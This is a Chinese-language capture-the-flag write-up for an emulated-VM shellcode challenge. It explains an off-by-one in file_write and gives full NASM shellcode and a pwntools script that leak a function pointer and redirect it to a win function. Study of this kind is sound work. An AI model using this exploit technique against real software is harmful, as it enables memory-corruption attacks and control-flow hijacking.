

### 分类：

- shellcode编写


### 描述

- 程序要求输入一段shellcode，然后在x86虚拟机中运行这段代码。因为虚拟机环境是隔离的，传统shellcode不能达到目的。

- 虚拟机注册了系统调用hook，运行syscall指令会进入对应的hook函数：

  ```c
  uc_hook_add(uc,&trace1,2,hook_syscall,0,1,0,699);
  ```

  ```c
  void hook_syscall(uc_engine *uc,void *user_data)
  
  {
    long in_FS_OFFSET;
    uint64_t rax;
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    uc_reg_read(uc,0x23,&rax);
    if (rax == 1) {
      sys_write(uc);
    }
    else if (rax == 0) {
      sys_read(uc);
    }
    else if (rax == 2) {
      sys_open(uc);
    }
    else {
      printf("ERROR: unknown syscall rax=0x%lx\n",rax);
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                      /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return;
  }
  ```


   另外，虚拟机环境中默认打开了三个文件stdin、stdout、和flag文件：



   可以看到fd=2，里面包括两个函数指针（红框部分），当发起read、write系统调用最终会运行这些函数。


- 溢出点：

  ```c
  int file_write(File *self,char *buffer,size_t size)
  
  {
    size_t local_20;
    
    local_20 = size;
    if ((self->size < size) && (0x200 < size)) {
      local_20 = 0x200;                                     // A
    }
    self->size = local_20;                                  // B
    memcpy(self->contents,buffer,local_20 + 1);             // C
    return (int)local_20;
  }
  ```

  当传入size=0x201时，A行会执行，B行将File结构体的size字段赋值为0x0200；
  
  接着，C行会读入0x201个字符，也就是size字段的最低一位会被buffer覆盖，得到一个大到足以覆盖函数指针的size值；

- 因为是PIE编译，得先暴露file_read地址，计算offset得到win地址后覆盖fops_read；


### 脚本

shellcode.s:

```assembly
BITS 64

jmp dummy_func
entry:
; buffer:
; |padding|size|fops_read|
; |0x200  |8   |8        |
pop r8
lea r9, [r8 + 0x200]
lea r10, [r9 + 0x8]

; off by 1
; fd->size = 0x210
mov qword [r9], 0x210
mov rdi, 2  ; fd
mov rsi, r8
mov rdx, 0x201
mov rax, 1
syscall

; leak address
mov rdx, 0x210
xor rax, rax
syscall

; fp->ops.fops_read = win
mov rax, [r10]
sub rax, 283           ; 283 -> read addr - win addr
mov [r10], rax
mov rax, 1
syscall

; call win
xor rax, rax
syscall

hlt
jmp $
dummy_func:
call entry
buffer:

```

编译：

`nasm -f bin shellcode.s`

`export LD_LIBRARY_PATH=.`


exploit.py:

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

f = open('./shellcode', 'rb')
payload = f.read()
print(payload)
payload = payload.ljust(0x1000, b'\x00')
f.close()

# p = remote('svc.pwnable.xyz', 30044)
p = process('./challenge')

# gdb.attach(p, '''
#     b *sys_open+152
#     b *sys_read+131
#     b *file_write+96
# ''')
p.sendlineafter(b'(y/n)\n', b'n')
p.sendafter(b'Send your program\n', payload)

p.recvuntil(b'Running the vm\n')

p.interactive()

```

